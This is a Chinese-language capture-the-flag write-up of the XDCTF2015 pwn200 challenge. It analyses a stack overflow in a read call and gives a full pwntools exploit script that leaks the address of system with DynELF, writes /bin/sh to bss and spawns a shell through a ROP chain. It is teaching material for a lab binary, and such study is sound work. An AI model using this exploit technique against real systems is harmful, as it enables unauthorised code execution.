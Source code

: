 ```yaml
---
layout:     post
title:      "XDCTF2015之pwn200"
subtitle:   "DynELF实现无libc利用"
date:       2018-06-19 12:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
 
---
```

## 0x00 代码分析

检查保护，只开启了NX

```python
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

IDA伪代码

```c
ssize_t sub_8048484()
{
  char buf;   #[esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}

int __cdecl main()
{
  int buf;   #[esp+2Ch] [ebp-6Ch]
  int v2;   #[esp+30h] [ebp-68h]
  int v3;   #[esp+34h] [ebp-64h]
  int v4;   #[esp+38h] [ebp-60h]
  int v5;   #[esp+3Ch] [ebp-5Ch]
  int v6;   #[esp+40h] [ebp-58h]
  int v7;   #[esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  sub_8048484();
  return 0;
}
```
汇编代码(关键函数sub_8048484)

```nasm
.text:08048484 sub_8048484     proc near               ; CODE XREF: main+A1↓p
.text:08048484
.text:08048484 buf             = byte ptr -6Ch
.text:08048484
.text:08048484 ; __unwind {
.text:08048484                 push    ebp
.text:08048485                 mov     ebp, esp
.text:08048487                 sub     esp, 88h
.text:0804848D                 mov     eax, ds:stdin
.text:08048492                 lea     edx, [ebp+buf]
.text:08048495                 mov     [esp+4], edx    ; buf
.text:08048499                 mov     [esp], eax      ; stream
.text:0804849C                 call    _setbuf
.text:080484A1                 mov     dword ptr [esp+8], 100h ; nbytes
.text:080484A9                 lea     eax, [ebp+buf]
.text:080484AC                 mov     [esp+4], eax    ; buf
.text:080484B0                 mov     dword ptr [esp], 0 ; fd
.text:080484B7                 call    _read
.text:080484BC                 leave
.text:080484BD                 retn
.text:080484BD ; }   #starts at 8048484
.text:080484BD sub_8048484     endp
```
明显sub_8048484()里read函数导致buf溢出

## 0x01 漏洞利用

该程序无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下借助DynELF实现利用的要点：

**先用write函数Memleak出目标主机systemAddr（leak函数里面对接收数据的处理尤其重要），再将/bin/sh写入bss段，用三个pop ret ROP调用system函数拿下shell**

## 0x02 脚本代码

```python
#!usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import pwnlib
context(os='linux', log_level='debug')
p = process("./pwn200")
elf = ELF("./pwn200")
writeplt = elf.symbols['write']
readplt = elf.symbols['read']
main_address =0x080484BE      #调用main函数
bss_address =0x0804a020    #bss段,用来写入“/bin/sh\0”
def leak(address):
  payload = "A" * 112
  payload += p32(writeplt)
  payload += p32(main_address)
  payload += p32(1)
  payload += p32(address)
  payload += p32(4)
  p.send(payload)
  data= p.recvuntil("XDCTF2015~!\n")
  data=data.split('Welcome')[0]
  print "%#x => %s" % (address, (data or '').encode('hex'))
  return data


p.recvline()
dynelf = DynELF(leak, elf=ELF("./pwn200"))
systemAddress = dynelf.lookup("system", "libc") 
print "systemAddress:=====", hex(systemAddress)


ppprAddress = 0x0804856c  #连续3次pop的ROP
payload1 = "A" * 112
payload1 += p32(readplt)
payload1 += p32(ppprAddress)
payload1 += p32(0)
payload1 += p32(bss_address)
payload1 += p32(8)
payload1 += p32(systemAddress) + p32(main_address) + p32(bss_address)

p.send(payload1)
p.send('/bin/sh\x00')

p.interactive()
```
## 0x03 总结

最开始我在leak函数里面，反复调用sub_8048484()，避免接收 "Welcome to XDCTF2015~!"
这个字符串，但是发现这样找到system地址返回后调用时可能堆栈出现了点问题，如果要这样用的话可以在找到地址后覆盖main函数以平衡栈空间，再进行下一步。更要善于观察栈空间结构。

[文件下载](https://github.com/yxshyj/project/tree/master/pwn/XDCTF2015%E4%B9%8Bpwn200)

